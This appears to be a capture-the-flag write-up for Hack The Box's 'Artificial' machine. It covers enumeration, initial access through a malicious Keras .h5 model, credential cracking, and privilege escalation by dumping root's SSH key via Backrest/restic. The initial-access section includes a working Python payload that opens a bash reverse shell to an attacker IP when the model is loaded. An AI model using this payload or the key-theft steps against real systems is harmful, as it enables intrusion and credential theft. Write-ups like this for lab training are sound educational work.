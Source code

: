 Tags: #Linux/Ubuntu #Easy #Nginx #Python #HDF5 #Tensorflow #File-Upload #RCE #Weak-Hashing-Algorithms #Weak-Passwords #Sensitive-Data-Exposure 
# **Nmap Results**

```text
Nmap scan report for 10.10.11.74
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.76 seconds
```
<br>
<br>

# **Service Enumeration**
First look at the site:

![[Pasted image 20250621193951.png]]

Registered account with the creds `test:test` and email "test@example.com"

Dashboard:
![[Pasted image 20250621200654.png]]

* Ran gobuster in vhost mode to discover potential hidden subdomains, no results
* Ran feroxbuster with my session cookie, nothing interesting found except for /upload_model. A 405 Method Not Allowed error is returned when I try to access that page. 

The site seems to take .h5 files, or Hierarchical Data Format 5 files. They're designed to efficiently store and organize large amounts of data and are widely used in data science and machine learning tasks. H5 files can store a variety of data types, including numerical arrays, images, and even custom data structures.
<br>
<br>
# **Exploitation**
## **Initial Access**
Payload script to create malicious h5:

```python
from tensorflow.keras.models import Sequential
from tensorflow.keras.layers import Lambda, Input
import tensorflow as tf
import numpy as np

model = Sequential([
    Input(shape=(1,)),
    Lambda(lambda x: tf.numpy_function(
        lambda _: __import__('os').system("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'"),
        inp=[x],
        Tout=tf.int64
    ))
])

model.compile()
model.build(input_shape=(None, 1))
model.predict(np.array([[0]]))  # Triggers the payload locally during generation

model.save("exploit.h5")
```

A full explanation can be found on [this post](https://blog.huntr.com/exposing-keras-lambda-exploits-in-tensorflow-models)
Another useful [resource](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model) explaining the same concept

Now logged in as **app**. Current shell was unstable so I created an ssh keypair, dropped the private key to my machine and logged back in with ssh. 

There was a SQLite3 database file called **users.db** in "/home/app/app/instance" that contained creds for a handful of users:

![[Pasted image 20250622121535.png]]

Checking /etc/passwd, we want gael's password:

![[Pasted image 20250622121647.png]]

hashes.com tells us his password is `mattp005numbertwo`. SSH login successful. 
<br>
<br>
# **Privilege Escalation**  
* Gael doesn't have any `sudo` privileges
* Nothing interesting in home directory

Output of `ss -tanup | grep -i listen`:
```
tcp    LISTEN  0       2048         127.0.0.1:5000        0.0.0.0:*             
tcp    LISTEN  0       4096         127.0.0.1:9898        0.0.0.0:*             
tcp    LISTEN  0       511            0.0.0.0:80          0.0.0.0:*             
tcp    LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:22          0.0.0.0:*             
tcp    LISTEN  0       511               [::]:80             [::]:*             
tcp    LISTEN  0       128               [::]:22             [::]:*
```

Port 5000 is another instance of the AI web app, nothing interesting there.

Port 9898 is a Backrest instance, which is a WebUI built on top of restic, a backup program that can back up data from any modern OS to various storage locations (local, remote or cloud). 

After port fowarding and logging back in with SSH, we're presented with this at **localhost:9898**:

![[Pasted image 20250622124014.png]]

* `/opt/backrest` is where this program resides on the target machine. No creds were found there
* Process snooping is ineffective due to `hidepid=2` in **/etc/fstab**

**/var/backups** holds a backup of the backrest program in a .tar archive file. Copy to /tmp and extract:

![[Pasted image 20250622132431.png]]

The .config directory contains a config.json file with credentials to the login panel:

```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}

```

The username is "backrest_root". The password is hashed with Bcrypt and base64 encoded. Hashcat runs successfully with the rockyou.txt wordlist. The password is `!@#$%^`

![[Pasted image 20250622142638.png]]

The "getting started" guide on the official site tell us to create a repo first, which is where backups will go. Then you create a plan, which tells backrest what to backup and which repo to put it in. 

To get a shell as root, I need root's ssh private key. 

I'll create a directory "backup1" in /tmp and use that path for the repo (password required, so just set it to "nothing"). Then I'll create a backup of /root/.ssh/:

![[Pasted image 20250622144147.png]]

Because of strict permissions and everything being owned by root in /tmp/backup1, I have to run restic commands to view backup contents. The help page will be useful.

`find id_rsa` output:

![[Pasted image 20250622150341.png]]

To print the contents of this file, you use dump with the snapshot id and the file you want, so `dump 357ab5f2 /root/.ssh/id_rsa`:

![[Pasted image 20250622150518.png]]

Copy to your machine, save, set correct permissions, and ssh as root with it. That's it.
<br>
<br>
# Skills Learned
* Slow down, take a step back sometimes and look at what you have, what you've already seen and haven't seen. 
* If you can run commands from within a web app, there's a good chance that's your way through. 
<br>
<br>
# Proof of Pwn
https://www.hackthebox.com/achievement/machine/391579/668